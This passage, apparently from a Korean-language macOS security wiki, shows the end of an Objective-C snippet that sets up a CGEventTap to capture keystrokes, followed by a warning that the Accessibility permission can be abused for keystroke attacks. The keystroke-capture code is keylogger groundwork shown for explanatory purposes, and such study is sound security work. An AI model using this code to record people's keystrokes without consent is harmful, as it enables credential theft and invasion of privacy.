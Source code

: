 ```objectivec
CGEventMask eventMask = CGEventMaskBit(kCGEventKeyDown);
CFMachPortRef eventTap = CGEventTapCreate(kCGSessionEventTap, kCGHeadInsertEventTap, 0, eventMask, KeyboardEventCallback, NULL);

if (!eventTap) {
NSLog(@"Failed to create event tap");
exit(1);
}

CFRunLoopSourceRef runLoopSource = CFMachPortCreateRunLoopSource(kCFAllocatorDefault, eventTap, 0);
CFRunLoopAddSource(CFRunLoopGetCurrent(), runLoopSource, kCFRunLoopCommonModes);
CGEventTapEnable(eventTap, true);
CFRunLoopRun();
}
return 0;
}
```
{% endtab %}
{% endtabs %}

{% hint style="danger" %}
**접근성은 매우 강력한 권한입니다**, 이를 다른 방식으로 악용할 수 있습니다. 예를 들어, 시스템 이벤트를 호출할 필요 없이 **키스트로크 공격**을 수행할 수 있습니다.
{% endhint %}

{% hint style="success" %}